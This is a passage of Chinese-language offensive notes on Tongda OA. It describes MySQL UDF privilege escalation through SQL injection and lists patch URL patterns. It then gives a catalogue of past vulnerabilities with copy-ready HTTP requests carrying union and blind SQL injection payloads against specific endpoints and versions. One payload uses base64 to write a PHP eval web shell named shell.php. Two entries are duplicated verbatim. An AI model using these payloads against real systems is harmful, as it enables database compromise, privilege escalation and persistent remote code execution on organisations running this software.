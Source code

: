 3. mysql udf提权

通达sql注入比较多，通过sql注入getshell后没法执行命令，但是sql注入可操纵的数据库用户权限很高，不是root就是oa用户（oa比root没有grant权限）。

（1）利用条件：

mysql可远程登录；

CREATE权限、FILE权限（root用户默认拥有所有权限）；

secure_file_priv项设置为空（不是null）:

e.g.

`general/hr/manage/query/delete_result.php` SQL注入可以创建高权限的数据库用户，利用新创建的用户修改该配置

（2）操作步骤：

- 查看用户权限
- 查看secure_file_priv配置

mysql5.1以上使用plugins目录上传udf，通达mysql5默认设置有plugins，使用`show variables like ‘plugins%';`即可查看路径。利用使用sqlmap/msf工具自带so或dll格式udf文件上传，具体操作步骤可参考：

https://www.freebuf.com/articles/database/291175.html

### (6) 补丁 ###

补丁分为日常离线补丁包和紧急补丁包，后者在出了新版本之后不再上架

离线补丁包：https://www.tongda2000.com/download/pXXXpatch.php

紧急补丁：https://www.tongda2000.com/download/patchXXX.php

XXX为各系列、版本发布年份，e.g. v11系列最早发布于2019年，即修改为patch2019.php或p2019patch.php

紧急补丁区别于离线补丁包在于打了紧急补丁的系统，版本号不会改变，且只存在于每个大版本之间。

### (7) 历史漏洞 ###

- SQL注入

```
(1)【<=11.6】/general/bi_design/appcenter/report_bi.func.php 登陆后联合注入
POST /general/bi_design/appcenter/report_bi.func.php HTTP/1.1
_POST[dataset_id]=efgh'-@`'`)union+select+database(),2,user()#'&action=get_link_info

（2）【<=11.6】/general/bi_design/appcenter/report_bi.func.php 登陆后联合注入
POST /general/bi_design/appcenter/report_bi.func.php HTTP/1.1
_POST[dataset_id]=efgh'-@`'`)union+select+database(),2,user()#'&action=get_link_info

（3）【<=11.6】general/document/index.php/recv/register/insert 逻辑盲注
POST /general/document/index.php/recv/register/insert  
title)values("'"^exp(if(1%3d2,1,710)))#=1&_SERVER

（4）【<=11.5】general/file_folder/swfupload_new.php 未授权逻辑盲注
POST /general/file_folder/swfupload_new.php
SORT_ID=0 RLIKE (SELECT  (CASE WHEN (substr(user(),1,1)=0x72) THEN 1 ELSE 0x28 END))

（5）【<=11.7】/general/email/inbox/get_index_data.php 逻辑盲注
GET /general/email/inbox/get_index_data.php?timestamp=&curnum=0&pagelimit=10&total=&boxid=0&orderby=3 RLIKE (SELECT (CASE WHEN (1=1) THEN 1 ELSE 0x28 END))

（6）【2011-2013】general/crm/studio/modules/EntityRelease/release.php 逻辑盲注可导致代码注入
GET /general/crm/studio/modules/EntityRelease/release.php?entity_name=1%d5'%20or%20sys_function.FUNC_ID=1%23%20${%20fputs(fopen(base64_decode(c2hlbGwucGhw),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz5vaw))}

（7）【<=11.10】general/hr/manage/query/delete_cascade.php 任意sql语句注入
REF：https://www.77169.net/html/267833.html
11.10版修补不完全，可绕过patch
```